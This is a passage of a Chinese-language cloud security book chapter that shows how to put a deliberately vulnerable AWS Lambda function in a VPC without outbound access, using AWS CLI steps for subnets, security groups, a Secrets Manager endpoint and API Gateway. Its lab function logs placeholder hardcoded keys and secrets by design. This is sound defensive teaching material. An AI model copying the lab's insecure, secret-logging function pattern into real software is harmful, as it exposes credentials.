








## 第 7 章 在 VPC 中运行和保护无服务器函数

在上一章中，你探讨了攻击者如何利用易受攻击的 Lambda 函数执行任意代码、通过出站网络访问从函数的执行环境中窃取环境变量，以及从 AWS Secrets Manager 中检索密钥。防止这种情况发生的一种有效方法是阻止出站连接并通过具有限制性网络控制的 VPC 保护你的 Lambda 函数免受数据外泄。通过这样做，攻击者无法利用依赖出站连接的技术，例如将窃取的环境变量、密钥或其他敏感数据发送到外部服务器。即使攻击者成功利用了代码注入漏洞，他们外泄数据的能力也会显著降低。

为了帮助你学习如何在具有限制性网络控制的 VPC 中配置 Lambda 函数，本章分为以下几个部分：

*   “Updating the Lambda Function Execution Role with the Required VPC Permissions”
*   “Setting Up and Configuring a VPC with Restricted Outbound Access”
*   “Attaching the Lambda Function to the VPC with Restricted Outbound Access”
*   “Setting Up an API Gateway REST API That Routes Requests to the Lambda Function”
*   “Updating the S3-Hosted Website to Use the API Gateway Endpoint URL”
*   “Verifying That Code Injection Attacks Attempting Outbound Access No Longer Work”
*   “Writing Secure Lambda Function Code to Defend Against Code Injection Attacks”

虽然这种设置并不推荐用于所有类型的无服务器应用程序，尤其是那些合法需要出站连接到外部 API 或第三方服务的应用程序，但它可以作为减少攻击面和限制数据外泄风险的良好起点。

### 审查技术先决条件

要跟随本章学习，你需要以下内容：

*   两个 AWS 账户：一个用于设置和托管易受攻击的按设计无服务器实验室环境（Serverless Lab 账户），另一个用于运行模拟攻击（Attacker 账户）。确保两个账户都已准备就绪，并在单独的浏览器会话（或隐身/隐私窗口）中打开，以避免会话冲突。
*   在本地机器上安装的代码编辑器（例如 VS Code 或 Sublime Text）。

如果你使用的是 Windows，请确保你有一种运行 macOS 或 Linux 命令的方法——例如，使用 WSL 或带有 Linux 发行版的虚拟机。

#### Note

为了帮助你完成练习和模拟，本章中使用的代码和命令的副本可在 [GitHub gist（见 `ch07.md`）](https://oreil.ly/0mSPU) 中获取。

### 更新 Lambda 函数执行角色以获得所需的 VPC 权限

到目前为止，你一直在处理一个未关联到你配置的 VPC 的 Lambda 函数。默认情况下，Lambda 函数在具有互联网访问的 AWS 管理的网络环境中运行，这就是为什么在代码注入攻击模拟期间，攻击者能够利用函数的出站连接来外泄凭据和源代码。在接下来的几个部分中，你将更新 Lambda 函数，使其在具有受限制出站连接的 VPC 中运行，如 Figure 7-1 所示。



在本节中，你将完成先决条件步骤之一，通过更新 Lambda 函数的执行角色以获得所需的 VPC 权限。为了使 Lambda 函数能够在你的 VPC 内运行，你将创建一个具有必要权限的内联策略并将其附加到执行角色。

#### Note

本节假设你使用的是 Serverless Lab 账户，该账户托管易受攻击的按设计无服务器实验室环境。

让我们继续更新 Lambda 函数的执行角色权限：


1. 切换回已打开 AWS Lambda 控制台的浏览器标签页。在继续下一步之前，请确保已打开 `lambda-0010` 的 AWS Lambda 函数详情页面。

2. 导航到 Configuration 标签页并点击 Permissions。在 Execution Role 部分，点击 “Role name” 下方的链接，在新标签页中打开 IAM 角色详情，以便查看或修改其权限。

3. 在 “Permissions policies” 部分（位于 Permissions 标签页），点击 “Add permissions”，然后从可用选项列表中选择 “Create inline policy”。

#### Note
这将指导你完成创建内联策略的过程，该过程包含两个步骤：指定权限，然后查看并创建策略。

4. 在 “Specify permissions” 页面，在 “Policy editor” 部分，选择 JSON 以使用原始 JSON 语法手动定义策略。

在 “Policy editor” 文本区域中指定以下内容，然后点击 Next：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "ec2:CreateNetworkInterface",
                "ec2:DescribeNetworkInterfaces",
                "ec2:DeleteNetworkInterface"
            ],
            "Resource": "*"
        }
    ]
}
```

5. 在 “Review and create” 页面，在 “Policy name” 字段中指定策略名称（例如 `create-network-interfaces`）。然后点击 “Create policy。”

#### Note
随后会出现以下通知，表明策略已成功创建：`Policy create-network-interfaces created.`

此时，附加到 Lambda 函数的 IAM 角色应具有三个权限策略，如 Figure 7-2 所示。

有了这些权限后，你的 Lambda 函数就可以创建和管理其在 VPC 内运行所需的网络接口。现在，是时候配置 VPC 了。



### Setting Up and Configuring a VPC with Restricted Outbound Access

大多数构建无服务器应用的开发人员最初会避免使用 VPC，通常为了简单起见而依赖默认的 AWS 管理网络。随着他们对支持无服务器运营模式的各种服务的经验积累，他们会采用带有 VPC 的自定义网络配置，这使他们能够控制入站和出站流量并安全地连接到其他 AWS 资源。虽然无服务器应用可以在没有自定义 VPC 的情况下运行，但使用 VPC 可提供更严格的安全性和更好的流量控制。

为了让你了解涉及的关键组件和资源，让我们先定义本章相关的几个关键术语：

**Virtual Private Cloud (VPC)**

这是在 AWS 云中逻辑隔离的虚拟网络，可让你安全地启动和管理资源。你可以定义 IP 地址范围，将资源组织到子网中，使用路由表控制流量，并通过网关连接到互联网或其他网络。

**Subnet**

VPC IP 地址范围中的一个部分，可在其中放置 AWS 资源。子网可以是公共的，允许资源与互联网通信，也可以是私有的，将资源与互联网隔离。为了帮助你可视化子网的设置，假设你有一个 VPC，包含四个子网——两个公共和两个私有——分布在不同的可用区以实现高可用性，如 Figure 7-3 所示。



这些位于公共子网中的资源可通过互联网网关直接连接到互联网，而私有子网中的资源则与互联网隔离，并在需要访问外部服务时使用 NAT 网关或 VPC 端点。^1

**Route table**

包含称为 *routes* 的规则，用于在 VPC 内引导网络流量的方向。每个子网都关联一个路由表，该路由表控制子网之间、到网关或到 VPC 端点的流量。

**Security group**

充当 AWS 资源的虚拟防火墙，控制允许的进出流量。你可以定义规则，指定允许与你的资源通信的协议、端口和 IP 地址。

**VPC endpoint**

使你能够在无需互联网网关、NAT 网关、VPN 连接或 AWS Direct Connect 连接的情况下，私密地将 VPC 连接到受支持的 AWS 服务和 VPC 端点服务。

在本节中，我将指导你设置一个没有出站访问的 VPC，同时创建必要的子网、路由表和安全组来控制流量。此外，如 Figure 7-4 所示，你将配置一个 VPC 端点，以允许在没有互联网连接的情况下安全、私密地访问 AWS 服务，如 Secrets Manager。有了此设置后，在 VPC 内运行的 Lambda 函数可通过 VPC 端点安全地访问 Secrets Manager 等服务，而无需互联网访问。



#### Note
本节假定你使用的是 Serverless Lab 账户，该账户托管易受攻击的无服务器实验室环境。

让我们继续创建 VPC 及其核心组件：

1. 在 AWS 管理控制台中，在搜索栏中输入 `cloudshell`，然后从匹配的服务列表中选择 CloudShell。

2. 在 CloudShell 终端中运行以下命令（在 `$` 符号之后）以在指定区域创建 CIDR 块为 `10.0.0.0/16` 的 VPC 并将其命名为 `NoOutboundVPC`：

```
REGION=us-east-1
AZ=${REGION}a

VPC_SPECS='ResourceType=vpc,Tags=[{Key=Name,Value=NoOutboundVPC}]'

VPC_ID=$(aws ec2 create-vpc \
  --cidr-block 10.0.0.0/16 \
  --region $REGION \
  --tag-specifications $VPC_SPECS \
  --query 'Vpc.VpcId' \
  --output text)

echo $VPC_ID
```

#### Tip
运行命令后，请注意 VPC ID 和名称。（在本例中，VPC 的名称为 `NoOutboundVPC`。）在配置 Lambda 函数时，你以后需要用到这些信息。

3. 为你的 VPC 启用 DNS 支持和 DNS 主机名：

```
aws ec2 modify-vpc-attribute \
  --region "$REGION" \
  --vpc-id "$VPC_ID" \
  --enable-dns-support "{\"Value\":true}"

aws ec2 modify-vpc-attribute \
  --region "$REGION" \
  --vpc-id "$VPC_ID" \
  --enable-dns-hostnames "{\"Value\":true}"
```

4. 在你的 VPC 中创建 CIDR 块为 `10.0.1.0/24` 且位于指定可用区的子网：^2

```
SUBNET_SPECS='ResourceType=subnet,Tags=[{Key=Name,Value=PrivateSubnet}]'

SUBNET_ID=$(aws ec2 create-subnet \
  --vpc-id $VPC_ID \
  --cidr-block 10.0.1.0/24 \
  --availability-zone $AZ \
  --tag-specifications $SUBNET_SPECS \
  --query 'Subnet.SubnetId' \
  --region $REGION \
  --output text)

echo $SUBNET_ID
```

#### Tip
运行命令后，请注意子网名称。（在本例中，子网的名称为 `PrivateSubnet`。）在配置 Lambda 函数时，你以后需要用到此信息。

5. 在你的 VPC 中创建新的路由表并将其与你的子网关联：

```
RT_SPECS='ResourceType=route-table,Tags=[{Key=Name,Value=PrivateRouteTable}]'

ROUTE_TABLE_ID=$(aws ec2 create-route-table \
  --vpc-id $VPC_ID \
  --tag-specifications $RT_SPECS \
  --query 'RouteTable.RouteTableId' \
  --region $REGION \
  --output text)

aws ec2 associate-route-table \
  --route-table-id $ROUTE_TABLE_ID \
  --subnet-id $SUBNET_ID \
  --region $REGION
```

6. 在你的 VPC 中创建一个名为 `lambda-private-sg` 的安全组：


```
LAMBDA_SG_ID=$(aws ec2 create-security-group \
  --group-name lambda-private-sg \
  --description "SG for Lambda in private subnet" \
  --vpc-id $VPC_ID \
  --region $REGION \
  --query 'GroupId' \
  --output text)
```

此安全组将用于控制 Lambda 函数的网络流量。

#### 注意

此安全组尚未附加到 Lambda 函数。你将在后续步骤中更新 Lambda 函数的配置以使用此安全组。

7. 删除 Lambda 函数安全组中的任何现有出站规则：

```
aws ec2 revoke-security-group-egress \
  --group-id $LAMBDA_SG_ID \
  --protocol -1 \
  --port all \
  --cidr 0.0.0.0/0 \
  --region $REGION || true
```

你应得到以下输出：

```
{
    "Return": true,
    "RevokedSecurityGroupRules": [
        {
            "SecurityGroupRuleId": "sgr-...",
            "GroupId": "sg-...",
            "IsEgress": true,
            "IpProtocol": "-1",
            "FromPort": -1,
            "ToPort": -1,
            "CidrIpv4": "0.0.0.0/0"
        }
    ]
}
```

这可确保默认情况下不允许任何出站流量。

8. 在你的 VPC 中创建一个名为 `endpoint-sg` 的安全组：

```
ENDPOINT_SG_ID=$(aws ec2 create-security-group \
  --group-name endpoint-sg \
  --description "SG for VPC Endpoint" \
  --vpc-id $VPC_ID \
  --region $REGION \
  --query 'GroupId' \
  --output text)
```

此安全组将用于控制流向 VPC 端点的流量。

#### 注意

此安全组尚未附加到任何 VPC 端点，因为端点本身尚未创建。

9. 删除 VPC 端点安全组的任何现有出站规则，以便默认情况下不允许出站流量：

```
aws ec2 revoke-security-group-egress \
  --group-id $ENDPOINT_SG_ID \
  --protocol -1 \
  --port all \
  --cidr 0.0.0.0/0 \
  --region $REGION || true
```

10. 允许通过端口 443 的入站 HTTPS 流量从 Lambda 函数的安全组进入 VPC 端点安全组：

```
aws ec2 authorize-security-group-ingress \
  --group-id $ENDPOINT_SG_ID \
  --protocol tcp \
  --port 443 \
  --source-group $LAMBDA_SG_ID \
  --region $REGION
```

这将允许 Lambda 函数通过 VPC 端点在 AWS 网络内安全、私密地访问 AWS 服务。

11. 允许从 VPC 端点安全组和 Lambda 函数安全组通过端口 443 的出站 HTTPS 流量到所有 IP 地址：

```
aws ec2 authorize-security-group-egress \
  --group-id $ENDPOINT_SG_ID \
  --protocol tcp \
  --port 443 \
  --cidr 0.0.0.0/0 \
  --region $REGION

aws ec2 authorize-security-group-egress \
  --group-id $LAMBDA_SG_ID \
  --protocol tcp \
  --port 443 \
  --cidr 0.0.0.0/0 \
  --region $REGION
```

#### 注意

即使这些安全组规则允许出站 HTTPS 连接，实际的出站访问仍取决于 VPC 的网络配置。由于 VPC 将配置为不包含互联网网关或 NAT 网关，Lambda 函数将无法访问外部端点，除非是配置的 VPC 端点。

12. 在你的 VPC 中创建 Secrets Manager 的接口 VPC 端点，并将其与之前步骤中创建的子网和安全组关联：

```
aws ec2 create-vpc-endpoint \
  --region "$REGION" \
  --vpc-id "$VPC_ID" \
  --vpc-endpoint-type Interface \
  --service-name "com.amazonaws.${REGION}.secretsmanager" \
  --subnet-ids "$SUBNET_ID" \
  --security-group-ids "$ENDPOINT_SG_ID" \
  --private-dns-enabled \
  --query 'VpcEndpoint.VpcEndpointId' \
  --output text
```

#### 注意

有了此接口 VPC 端点，即使 VPC 没有互联网连接和 NAT 网关，Lambda 函数也可以安全地访问 Secrets Manager。

至此，你已成功设置并配置了一个没有出站访问的 VPC。请记住，VPC 配置取决于你的应用程序需求，并非所有无服务器应用程序都可以在没有出站访问的 VPC 中运行。例如，某些应用程序需要访问外部 API 或服务，这意味着你可能需要允许它们的选择性出站访问以便正常运行。在处理 VPC 中受限的出站流量时，你可以使用额外的服务和组件——例如 AWS Network Firewall 与 VPC 端点或 NAT 网关一起使用——以选择性地过滤、监控和控制出站流量，同时保持安全性。

### 将 Lambda 函数附加到具有受限出站访问的 VPC

现在 VPC 及其组件已就位，你可以配置 Lambda 函数在其中运行而无需互联网访问。在本节中，你将把 Lambda 函数附加到 VPC，配置其子网和安全组，并确认其在没有出站访问的情况下成功运行。

#### 注意

本节假定你使用的是 Serverless Lab 账户，该账户托管易受攻击的无服务器实验室环境。

让我们逐步完成将 Lambda 函数连接到你刚刚创建的 VPC 的步骤：

1. 切回已打开 AWS Lambda 控制台的浏览器标签页。确保在继续下一步之前，已打开 AWS Lambda 函数 `lambda-0010` 的函数详情页面。

2. 导航到 Configuration 标签。选择 VPC 然后点击 Edit。

3. 在 Edit VPC 页面上，找到 VPC 部分。对于 VPC，选择 `NoOutboundVPC`。对于 Subnets，选择 `PrivateSubnet`。对于 Security Groups，选择 `lambda-private-sg`。然后点击 Save。

#### 注意

点击 Save 按钮后，你应收到以下通知：`Updating the function lambda-0010`。等待更新完成后再继续。

4. 在 Test 标签上，点击 Test（在“Test event”下）。Lambda 函数预计会成功运行并产生以下日志集：

```
START RequestId: ... Version: $LATEST
event: {'queryStringParameters': {'statement': '1 + 1'}}
HARDCODED_KEY_01:  ABCDE
HARDCODED_KEY_02:  FGHIJ
CUSTOM_ENV_VAR_01:  KLMNO
CUSTOM_ENV_VAR_02:  PQRST
SECRETS MANAGER SECRETS:  {'secret1': 'secret-value1',
'secret2': 'secret-value2', 'secret3': 'secret-value3'}
END RequestId: ...
REPORT RequestId: ...   Duration: 2178.81 ms    Billed Duration: 2506 ms
Memory Size: 128 MB Max Memory Used: 86 MB  Init Duration: 326.40 ms
```

此时，Lambda 函数已配置为在 VPC 内运行，使用私有子网和安全组，并可通过 VPC 端点访问 AWS Secrets Manager，同时与互联网隔离。你现在可以继续创建并配置 API Gateway REST API 以供你的 Lambda 函数使用。

### 设置路由请求到 Lambda 函数的 API Gateway REST API

到目前为止，你一直在使用 Lambda 函数 URL 来调用你的函数。对于生产工作负载，你应考虑使用 Amazon API Gateway，用完全托管的 API 层替代直接的 Lambda 函数 URL。与函数 URL 相比，API Gateway 提供细粒度的访问控制，支持高级身份验证和授权机制，支持节流，支持请求验证和转换，并提供详细的日志记录和可观测性。虽然函数 URL 确实支持基于 IAM 的基本授权，但 API Gateway 为生产 API 提供了更大的灵活性和控制能力。


在本节中，你将设置 API Gateway 以安全地将请求路由到你的 Lambda 函数。更具体地说，你将创建一个 REST API，添加资源和 HTTP 方法，并配置 Lambda 代理集成，如 图 7-5 所示。



之后，你将把 API 部署到一个阶段，并更新 Lambda 函数以包含用于跨源请求的 CORS 头。^5 为了帮助你理解流程和涉及的关键组件，让我们先定义几个关键术语：

Amazon API Gateway

这项完全托管的服务允许你为应用程序创建、部署、管理和监控以及保护 API。它充当应用程序访问后端服务（如 AWS Lambda、EC2 和其他 HTTP 端点）的数据、业务逻辑或功能时的“前端入口”。

API Gateway REST API

一种由资源和方法组成的 Amazon API Gateway API 类型，定义了客户端如何与你的后端服务交互。它支持诸如 `GET`、`POST`、`PUT` 和 `DELETE` 等 HTTP 方法，并允许对请求处理和授权进行精细控制。

API stage

API Gateway API 部署的命名引用。它代表 API 配置的快照，使你能够管理多个环境，例如开发、 staging 和生产，每个环境都有自己的 URL、阶段变量和设置。

Integration request

定义 API Gateway 如何将客户端请求转发到后端服务。集成请求将方法请求数据，例如头、查询字符串和负载，映射为集成端点所期望的格式。

Integration response

定义后端响应如何映射回客户端。集成响应可以转换状态码、头和主体负载以匹配 API 定义的方法响应。

Method request

指定 API 的面向客户端的接口，包括 HTTP 方法、必需的请求参数和授权设置。

Method response

定义 API 方法的面向客户端的响应结构，包括 HTTP 状态码、响应模型和头，并将后端响应映射到此定义格式。

Proxy integration

一种最小化 API Gateway 中转换的 API Gateway 集成类型。使用 Lambda 代理集成时，完整的客户端请求——包括头、查询参数和主体——会原样发送到 Lambda 函数，并且函数的响应会直接返回给客户端。使用 HTTP 代理集成时，API Gateway 会将整个 HTTP 请求转发到后端 HTTP 端点，并将后端的响应以最少的修改返回给客户端。

现在你对关键组件和概念有了扎实的理解，让我们逐步了解请求在经过 API Gateway REST API 时的旅程。^6 当客户端向你的 API Gateway REST API 发送请求时，请求首先被路由到适当的资源和 HTTP 方法。API Gateway 然后评估方法请求中定义所需的任何头、查询参数或授权设置。如果方法使用 Lambda 代理集成，则完整的请求——包括头、查询字符串参数和主体——会直接转发到 Lambda 函数。一旦 Lambda 函数处理完请求，其响应就会返回给 API Gateway，API Gateway 会在将最终响应传递给客户端之前应用任何配置的集成响应和方法响应映射，以处理状态码、头和负载。

#### Note

本节假设你正在使用 Serverless Lab 账户，该账户托管易受攻击的按设计无服务器实验室环境。

让我们逐步进行设置 API Gateway REST API 的步骤：

1. 切回浏览器标签页，其中你的 Serverless Lab AWS 账户中的 CloudShell 控制台已打开。

2. 在 CloudShell 终端中，在 `$` 符号后运行以下命令，以定义将用于设置和配置你的 API 网关的环境变量：

```
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
REGION="us-east-1"
LAMBDA_NAME="lambda-0010"
API_NAME="APIGateway0010"
ROUTE_PATH="lambda"
STAGE_NAME="prod"
```

3. 使用 `aws apigateway create-rest-api` 命令创建具有指定名称 `APIGateway0010` 的 API Gateway REST API：

```
REST_API_ID=$(aws apigateway create-rest-api \
  --name "$API_NAME" \
  --region $REGION \
  --query 'id' --output text)
```

4. 使用 `aws apigateway create-resource` 命令创建新资源：

```
PARENT_ID=$(aws apigateway get-resources \
  --rest-api-id $REST_API_ID \
  --query "items[?path=='/'].id" --output text)

RESOURCE_ID=$(aws apigateway create-resource \
  --rest-api-id $REST_API_ID \
  --parent-id $PARENT_ID \
  --path-part $ROUTE_PATH \
  --query 'id' --output text)
```

5. 为 REST API 设置 `GET` 方法：

```
aws apigateway put-method \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method GET \
  --authorization-type "NONE"
```

6. 使用 `aws apigateway put-integration` 命令设置 API 网关与 Lambda 函数之间的集成，使用 AWS 代理集成：

```
URI_1="arn:aws:apigateway:$REGION:lambda:path"
URI_2="2015-03-31/functions/arn:aws:lambda"
URI_3="$REGION:$ACCOUNT_ID:function:$LAMBDA_NAME/invocations"
URI="$URI_1/$URI_2:$URI_3"

aws apigateway put-integration \
  --rest-api-id $REST_API_ID \
  --resource-id $RESOURCE_ID \
  --http-method GET \
  --type AWS_PROXY \
  --integration-http-method POST \
  --uri $URI
```

7. 通过添加 CORS 头来配置 `GET` 方法的方法响应，以允许跨源请求：

```
MRO="method.response.header.Access-Control-Allow-Origin=true,"
MRH="method.response.header.Access-Control-Allow-Headers=true,"
MRM="method.response.header.Access-Control-Allow-Methods=true"
PARAMS="$MRO$MRH$MRM"

